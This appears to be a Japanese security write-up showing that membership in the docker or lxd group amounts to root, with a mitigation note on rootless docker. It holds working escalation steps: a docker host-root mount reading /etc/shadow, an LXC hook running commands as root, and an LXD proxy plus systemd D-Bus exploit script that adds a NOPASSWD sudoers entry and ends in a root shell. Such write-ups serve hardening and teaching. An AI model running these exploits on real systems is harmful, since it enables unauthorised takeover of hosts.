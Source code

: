 # コンテナ実行権限を持つグループへのユーザー追加

`docker` グループや `lxd` グループへのユーザー追加を行うことは、そのユーザーに root 権限を追加することと同義です。  
例えば docker の場合は次のようにホストのルートディレクトリをマウントすることで、ホスト側で任意の操作を行うことが可能になります。

```sh
ubuntu@sandbox:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
ubuntu@sandbox:~$ docker run --rm -it -v /:/hostfs ubuntu:latest bash
root@f6a72ca2aaf6:/# cat /hostfs/etc/shadow
root:*:18444:0:99999:7:::
...
```

ただし、rootless docker のようにコンテナを root 以外で動かしている場合は、一般ユーザー権限でコンテナを作成するため、この攻撃を緩和することができます。

```sh
ubuntu@rootless-docker:~$ docker run --rm -it -v /:/hostfs ubuntu:latest bash
root@0e55694c273c:/# cat /hostfs/etc/shadow
cat: /hostfs/etc/shadow: Permission denied
```

## lxd グループへの追加

LXD の場合、ユーザーを `lxd` グループに追加することでコンテナの操作が可能になりますが、これも docker 同様に root 権限を与えることと同義です。  

### hook を使った権限昇格

LXC には hook 機能があり、これを利用して root として任意のコマンドを実行できます。

```sh
$ lxc launch images:ubuntu/trusty/amd64 runme -c raw.lxc="lxc.hook.pre-start=sh -c 'echo foo >/runme'"
Creating runme
Starting runme
user@host:~$ ls -l /runme 
-rw-r--r-- 1 root root 5 May  7 10:29 /runme
```

### LXD proxy を利用した権限昇格

LXD の proxy 経由で unix socket にアクセスすると、その資格情報は root になってしまいます。  
これを利用して systemd の socket に接続して任意の service を操作することができます。

例えば次のような unix socket でやり取りを行うプログラムを起動します。

```sh
$ cat echo.py
import socket
import struct

def main():
    """Echo UNIX peercreds"""
    listen_sock = '/tmp/echo.sock'
    sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    sock.bind(listen_sock)
    sock.listen()

    while True:
        print('waiting for a connection')
        connection = sock.accept()[0]
        peercred = connection.getsockopt(socket.SOL_SOCKET, socket.SO_PEERCRED,
                                         struct.calcsize("3i"))
        pid, uid, gid = struct.unpack("3i", peercred)

        print("PID: {}, UID: {}, GID: {}".format(pid, uid, gid))

        continue

if __name__ == '__main__':
    main()

$ python3 echo.py
waiting for a connection
# nc -U /tmp/echo.sock でつなぐと、その UID, GID が表示される
PID: 15373, UID: 1001, GID: 1001
```

LXD proxy を用意して root で接続されるかを確認します。次のコマンドでコンテナ内の `/tmp/proxy.sock` からホストの `/tmp/echo.sock` に接続できます。

```sh
$ lxc config device add test proxy_sock proxy connect=unix:/tmp/echo.sock listen=unix:/tmp/proxy.sock bind=container mode=0777
Device proxy_sock added to test
```

同様に接続すると root になっていることがわかります。

```sh
$ lxc exec test -- sudo --user ubuntu --login
ubuntu@test:~$ nc -U /tmp/proxy.sock

$ python3 test.py
...
PID: 14988, UID: 0, GID: 0
```

これも lxd が root で動いていることが理由です。

```sh
$ ps aux | grep 14988
root     14988  0.0  0.7 1230076 30576 ?       Ssl  03:54   0:00 /snap/lxd/current/bin/lxd forkproxy -- 14522 -1 unix:/tmp/proxy.sock 13977 -1 unix:/var/lib/snapd/hostfs/tmp/echo.sock /var/snap/lxd/common/lxd/logs/test/proxy.proxy_sock.log /var/snap/lxd/common/lxd/devices/test/proxy.proxy_sock   0777
```

これを利用して systemd の socket と通信することで任意コード実行につなげることができます。  
systemd が利用する `/run/systemd/private` をコンテナ内の `/tmp/container_sock` に bind し、さらにそれをホスト側に bind することで、コンテナに入らずとも接続できるようにします。

```sh
lowpriv@vagrant:~$ lxc config device add test container_sock proxy connect=unix:/run/systemd/private listen=unix:/tmp/container_sock bind=container mode=0777
Device container_sock added to test
lowpriv@vagrant:~$ lxc config device add test host_sock proxy connect=unix:/tmp/container_sock listen=unix:/tmp/host_sock bind=host mode=0777
Device host_sock added to test
```

自身を sudoers に追加する systemd unit ファイルを作成し、systemd socket を通して実行することで root に権限昇格することができます。

```sh
$ cat /tmp/evil.service
[Unit]
Description=evil
[Service]
Type=oneshot
ExecStart=/bin/sh -c "echo user ALL=\(ALL\) NOPASSWD: ALL >> /etc/sudoers"
[Install]
WantedBy=multi-user.target

$ cat exploit.py
import socket
import sys
import time

AUTH = u'\0AUTH EXTERNAL 30\r\nNEGOTIATE_UNIX_FD\r\nBEGIN\r\n'

LINK = u'l\1\4\1$\0\0\0\1\0\0\0\242\0\0\0\1\1o\0\31\0\0\0/org/freedesktop/systemd1\0\0\0\0\0\0\0\3\1s\0\r\0\0\0LinkUnitFiles\0\0\0\2\1s\0 \0\0\0org.freedesktop.systemd1.Manager\0\0\0\0\0\0\0\0\6\1s\0\30\0\0\0org.freedesktop.systemd1\0\0\0\0\0\0\0\0\10\1g\0\4asbb\0\0\0\0\0\0\0\26\0\0\0\21\0\0\0/tmp/evil.service\0\0\0\0\0\0\0\0\0\0\0'

RELOAD = u'l\1\4\1\0\0\0\0\2\0\0\0\211\0\0\0\1\1o\0\31\0\0\0/org/freedesktop/systemd1\0\0\0\0\0\0\0\3\1s\0\6\0\0\0Reload\0\0\2\1s\0 \0\0\0org.freedesktop.systemd1.Manager\0\0\0\0\0\0\0\0\6\1s\0\30\0\0\0org.freedesktop.systemd1\0\0\0\0\0\0\0\0'

START = u'l\1\4\1 \0\0\0\1\0\0\0\240\0\0\0\1\1o\0\31\0\0\0/org/freedesktop/systemd1\0\0\0\0\0\0\0\3\1s\0\t\0\0\0StartUnit\0\0\0\0\0\0\0\2\1s\0 \0\0\0org.freedesktop.systemd1.Manager\0\0\0\0\0\0\0\0\6\1s\0\30\0\0\0org.freedesktop.systemd1\0\0\0\0\0\0\0\0\10\1g\0\2ss\0\f\0\0\0evil.service\0\0\0\0\7\0\0\0replace\0'

def send_msg(sock_name, msg):
    client_sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    client_sock.connect(sock_name)

    try:
        client_sock.sendall(AUTH.encode('latin-1'))
        reply = client_sock.recv(8192).decode("latin-1")
        print(reply)

        client_sock.sendall(msg.encode('latin-1'))
        reply = client_sock.recv(8192).decode("latin-1")

        print(reply)
    except:
        print("Connection reset...")

def main():

    for msg in [LINK, RELOAD, START]:
        send_msg(sys.argv[1], msg)
        time.sleep(1)

if __name__ == '__main__':
    main()

$ python3 exploit.py
OK c00157aa91bf4b70a9fcbe8e556ca3c1
AGREE_UNIX_FD

lo/org/freedesktop/systemd1s org.freedesktop.systemd1.ManagersUnitFilesChangedsorg.freedesktop.systemd1lR<usorg.freedesktop.systemdga(sss)Jsymlink /etc/systemd/system/evil.service/tmp/evil.service
OK 95eb8e05ae1647c7ba5aae363557ff5d
AGREE_UNIX_FD

lo/org/freedesktop/systemd1s org.freedesktop.systemd1.Managers  Reloadingsorg.freedesktop.systemdgb
OK 92f3058be4c74bf5a7f05a16182f393a
AGREE_UNIX_FD

lY¶o-/org/freedesktop/systemd1/unit/evil_2eservicesorg.freedesktop.DBus.PropertiessPropertiesChangedsorg.freedesktop.systemdsa{sv}as org.freedesktop.systemd1.Service¼MainPIDu
ControlPIDu
StatusTexts
           StatusErrnoiResults  exit-codeUIDuÿÿÿÿGIDuÿÿÿÿ       NRestartsuExecMainStartTimestamptØ
©ExecMainStartTimestampMonotonictÔOÔ
©ExecMainExitTimestampMonotonictîÔ

ExecMainPIDu^?
              ExecMainCodeiExecMainStatusii
ExecStartPost                              ExecStartPre ExecStart
ExecReloaExecStop
                 ExecStopPost

$ sudo su
root@host:~/# id
uid=0(root) gid=0(root) groups=0(root)
```

